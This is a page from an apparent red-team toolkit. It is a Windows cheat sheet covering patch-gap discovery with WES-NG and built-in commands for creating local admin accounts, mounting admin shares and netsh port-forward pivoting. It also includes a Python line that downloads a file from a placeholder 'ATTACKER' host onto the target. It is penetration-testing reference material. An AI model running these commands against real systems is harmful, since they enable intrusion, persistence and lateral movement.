

repository: EvolvingSysadmin/Red-Team-Toolkit · page: initial-access/windows-exploits/index.html · generator: mkdocs · copyright: Copyright © Ryan Heavican

# Windows Exploits

Finding and exploiting missing patches and misconfigurations to gain or extend access on Windows hosts.

## Why It Matters

Windows hosts in an environment are often behind on patches or carry legacy configurations. Identifying the exact patch level points straight at known vulnerabilities, and a handful of built-in commands cover most of what is needed to act on a foothold.

## Reference

### Finding Missing Patches

Windows Exploit Suggester (WES-NG) compares a host's patch level against known vulnerabilities.

```shell
wes.py --update                              # update the database
```
```cmd
systeminfo > systeminfo.txt                  # on the target
```
```shell
wes.py systeminfo.txt                        # analyze offline
```

List installed hotfixes, newest first:

```powershell
Get-HotFix | Sort-Object InstalledOn -Descending
```

### Useful Built-in Commands

| Task | Command |
| :--- | :--- |
| Search files for a string | `ls -r C:\path -file \| % {Select-String -path $_ -pattern STRING}` |
| Mount a remote share | `net use X: \IP\c$` |
| Add a user | `net user <name> <password> /add` |
| Add a user to local admins | `net localgroup Administrators <name> /add` |
| Find files with a user's SID in the ACL | `icacls c:\*. /findsid <name> /t /c /l` |
| TCP port forward relay | `netsh interface portproxy add v4tov6 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>` |

### Simple File Transfer with Python

```python
# download a file to the host
import urllib.request; urllib.request.urlretrieve("http://ATTACKER/file","C:\file")
```
```python
# serve the current directory
python -m http.server 8000
```

## How I Use It

After a foothold I capture `systeminfo` and run it through WES-NG offline, so I am not scanning the host live. Missing-patch findings get validated before firing anything. The built-in `net` and `netsh` commands cover most immediate needs (shares, users, pivoting) without dropping extra tools on the host.

## Related

* [Local Windows Privilege Escalation](../privilege-escalation/local-windows-privilege-escalation.md)
* [Windows Post-Exploitation Discovery](../discovery/windows-post-exploitation-discovery.md)
* [Mimikatz](../privilege-escalation/mimikatz.md), [Metasploit](metasploit.md)
